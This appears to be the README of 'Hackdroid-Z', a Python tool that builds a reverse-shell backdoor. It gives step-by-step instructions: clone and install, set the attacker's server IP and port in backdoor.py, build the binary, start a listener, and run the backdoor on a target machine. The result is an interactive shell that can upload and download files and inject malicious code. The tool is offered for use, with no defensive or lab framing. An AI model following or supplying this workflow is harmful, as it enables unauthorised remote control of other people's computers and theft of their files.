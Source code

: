 ![hackdroidz](https://img.shields.io/badge/tool-hackdroidZ-brightgreen?style=for-the-badge&logo=github)

![Hackdroid-Z](https://miro.medium.com/max/3840/1*4VtMoJ2jGvuJB26NRaL59g.jpeg)

# ABOUT THIS TOOL :
Hackdroid-Z is a python based script or tool which made for creating a reverse shell. It will help you to create a reverse shell in less time. You can also inject malicious code ones you get a reverse connection. Also you can upload and download files from your target computer through reverse shell.

# INSTALLATION :
- `git clone https://github.com/BurpOverflow/Hackdroid-Z.git`
- `cd Hackdroid-Z`
- `pip3 install -r requirements.txt`

# USAGE OPTIONS [Linux] :
- `-h` Show Help Menu
- `-H` Specify Your Host IP Address
- `-p` Specify Listening Port

# CUSTOM SHELL COMMAND : 
### 1. DOWNLOAD FILE : 
- You can download file using `download filename`
### 2. UPLOAD FILE : 
- You can upload file using `upload filename`

# HOW TO USE : 

### EDIT BACKDOOR.PY : 
- Open backdoor.py using `vim` or `nano`
- Specify `SERVER_IP` and `SERVER_PORT` , Then save this file.

![BACKDOOR.PY](https://miro.medium.com/max/2127/1*C2sd2SfbeWHzX60jIivxaw.png)

### BUILD YOUR BACKDOOR : 
- Type `python3 build.py` on your terminal.
- Then you will findout you backdoor in `dist` directory.
![backdoor](https://miro.medium.com/max/2127/1*NGxTdHqj2CrDAIkLbXWgKA.png)

### START YOUR SERVER : 
- Type `python3 -H 192.168.43.123 -p 5050`
- `-H` specify your host IP
- `-p` specify listening port
![img](https://miro.medium.com/max/2076/1*6bmWB42nDi3Yz9--rH1rXA.png)

### EXECUTE BACKDOOR IN YOUR TARGET MACHINE : 
- type `./backdoor` on trminal to execute it.
![execute](https://miro.medium.com/max/2127/1*MZrJFvpLBN38bjaYb0Gocg.png)

### REVERSE SHELL : 
- Now you got a reverse shell.
- You can type any command you want
![shell](https://miro.medium.com/max/2076/1*KU3PxN-jzazuviBDjQdvAg.png)

## CONTACT ME : 
- Twitter: [@burpOverflow](https://twitter.com/BurpOverflow/)
- Join Discord: [BurpOverflow](https://discord.gg/UWU8NKmayp)
- Sub Reddit: [Sub Reddit](https://www.reddit.com/r/burpOverflow/)

